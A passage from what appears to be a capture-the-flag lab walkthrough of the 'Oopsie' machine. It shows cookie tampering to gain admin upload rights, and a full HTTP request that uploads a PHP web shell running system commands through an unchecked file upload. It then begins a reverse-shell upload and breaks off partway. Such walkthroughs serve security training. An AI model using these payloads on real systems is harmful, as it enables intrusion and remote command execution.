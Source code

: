 Now I think we can try what we were trying before with the Uploads intercept!  Intercepting the Uploads request and sending to Repeater, we change 
```
user=34322; role=admin
```
to
```
user=86575; role=super admin
```

And show response in browser for easy access.  We can upload a file!  This is excellent, because we have done Remote Code Execution (RCE) before.  Let's put in a simple display script, so that our request looks like this:
```
POST /cdn-cgi/login/admin.php?content=uploads&action=upload HTTP/1.1
Host: oopsie
Content-Length: 401
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://oopsie
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxCPwDzmeB8D1ILNO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=86575; role=super admin
Connection: close

------WebKitFormBoundaryxCPwDzmeB8D1ILNO
Content-Disposition: form-data; name="name"

evil
------WebKitFormBoundaryxCPwDzmeB8D1ILNO
Content-Disposition: form-data; name="fileToUpload"; filename="display.php"
Content-Type: text/php

<html><head><title>Display a file</title></head>
<body>
<? echo system("cat ".$_GET[’file’]); ?>
</body></html>
------WebKitFormBoundaryxCPwDzmeB8D1ILNO--
```

This uploaded successfully (which is good, because they haven't checked for file extensions!).

Recall that we say an `uploads` directory from `gobusters` earlier!  Let's try uploading a [reverse shell PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) on:

```
POST /cdn-cgi/login/admin.php?content=uploads&action=upload HTTP/1.1
Host: oopsie
Content-Length: 6371
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://oopsie
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQG5MQDvEzdbIdQ1i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
```